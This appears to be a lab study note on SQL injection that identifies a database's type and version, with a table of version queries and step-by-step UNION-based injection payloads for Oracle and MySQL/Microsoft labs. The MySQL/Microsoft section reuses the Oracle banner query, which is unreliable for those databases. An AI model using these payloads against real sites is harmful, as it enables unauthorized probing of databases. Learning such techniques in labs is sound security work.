 Examining the database in SQL injection attacks

# Examining the database in SQL injection attacks

| Database type | Query |
| ------------- | ------| 
|Microsoft 		|	SELECT @@version |
|Oracle 		|	SELECT * FROM v$version |
|PostgreSQL 	| 	SELECT version() |
|MySQL 			|	SELECT @@version |

## Lab - SQL injection attack, querying the database type and version on Oracle

Steps: 

1. Determine the number of column
```
category=Pets' ORDER BY 1,2 --
```

2. Determine data type for each column
```
category=Pets' UNION SELECT 'a','b' FROM DUAL --
```

3. Retrieve Oracle banner
```
category=Pets' UNION SELECT banner, null FROM v$version --
```
```
UNION SELECT * FROM v$version where banner LIKE 'oracle%'--

```

## SQL injection attack, querying the database type and version on MySQL and Microsoft


Steps

1. Determine the number of column
```
category=Pets' ORDER BY 1,2 #
```

2. Determine data type for each column
```
category=Pets' UNION SELECT 'a','b' #
```

3. Retrieve Oracle banner
```
category=Pets' UNION SELECT banner, null FROM v$version --
```

`#` = %23